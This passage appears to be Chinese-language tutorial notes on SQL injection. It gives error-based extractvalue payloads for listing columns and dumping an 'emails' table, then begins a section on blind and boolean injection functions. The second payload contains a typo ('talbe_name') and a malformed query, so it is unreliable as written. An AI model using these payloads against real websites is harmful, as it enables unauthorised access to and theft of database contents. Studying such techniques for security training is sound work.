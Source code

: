 ##### e.查看表中字段名

```
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e)) --+
```

<img src="../../images/8-20-morning/5. 查看表的字段名.png" alt="5. 查看表的字段名" style="zoom:67%;" />

##### f.查看表里数据

```
1' and extractvalue(1,concat(0x7e,(select group_concat(concat_ws('___',id,email_id)) from information_schema.columns where table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### 2. SQL盲注

#### (1). 概述

* 服务器不会直接返回具体的数据库，只会返回程序开发所**设定的特定信息**
* 页面**不会直接显示**sql执行的结果

#### (2). 布尔盲注

* 在进行SQL注入时，**WEB页面只返回True和False**
* 对返回True或False的情况对数据库的信息**进行猜解**

##### a. 相关函数

###### ①长度截取

* 用于截取**某一列字段中的一部分**，在各个数据库中名称不一样

* substr(arg1,int1,int2)，**int1为截取开始位置(从1开始计算)**，**int2为截取长度**，其余用法完全一样
  1. substr()
  2. substring()
  3. mid()
  4. left()
  5. right()
  
  ```
  select substr(database(),1,3)
  ```

###### ②length()
